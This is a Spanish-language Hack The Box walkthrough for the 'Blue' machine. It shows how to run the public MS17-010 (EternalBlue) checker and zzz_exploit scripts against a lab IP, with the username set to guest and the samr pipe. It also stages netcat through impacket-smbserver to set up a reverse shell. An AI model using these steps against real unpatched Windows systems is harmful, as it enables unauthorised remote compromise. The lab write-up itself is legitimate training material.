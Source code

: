 Nos descargamos un repositorio que tiene Eternal Blue que es:
```python
git clone https://github.com/worawit/MS17-010.git
```

Nos movemos a la carpeta de los scripts y tratamos de ejecutar checker con python3.

Pero como con python3 no funciona ya que fue programado en pyton2 podemos convertir el script a python3 o ejecutarlo con python2. Esto nos daba un error al importar impackets que podemos solucionar así:
```python
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
python2 get-pip.py
/home/hacker/.local/bin/pip2.7 install impacket
```
 Ya con eso ejecutamos el checker.py:
 ```python
 python2 checker.py 10.129.9.50
```

![Desktop View](/assets/img/Blue/Pasted image 20221102161241.png){: width="972" height="589" }
Cuando estamos en un entorno empresarial, si detectamos que el checker nos pone OK ya tendríamos una vía potencial de llegar. En este caso nos dice que la victima no esta parcheado.

En este caso no ha funcionado, pero si abrimos el checker y modificamos la linea de USERNAME poniendo guest tal vez podamos obtener mejor resultado.

![Desktop View](/assets/img/Blue/Pasted image 20221102161453.png){: width="972" height="589" }
El resultado es este:

![Desktop View](/assets/img/Blue/Pasted image 20221102161425.png){: width="972" height="589" }
Sabiendo que el pipe name samr puede ser vulnerable ejecutamos zzz_exploit.py con ese pipe name (samr)
En zzz_exploit.py
Pero antes tenemos que modificar el USERNAME por guest y tambien lo siguiente de la imagen:

![Desktop View](/assets/img/Blue/Pasted image 20221102164600.png){: width="972" height="589" }

De esta manera podemos hacer un Reverse shell

El ejecutable de netcat para windows se encuentra en /Descargas/Necat Windows/nc64.exe
Nos lo copiamos al directorio al que estamos trabajando.

Desde el directorio donde tenemos el `nc64.exe` (en este caso /Documentos/HackTheBox/Blue) vamos a iniciar impacker-smbserver para crear un recurso compartido a nivel de red con un nombre, el cual va a estar sincronizado a nuestro directorio actual.

```python
sudo impacket-smbserver smbFolder $(pwd) -smb2support
#impacker-smbserver  Iniciamos el recurso compartido
#smbFolder Nombre de la carpeta a compartir
#$(pwd) Desde nuestra carpeta actual
#smb2support damos soporte a la version 2 de smb

```
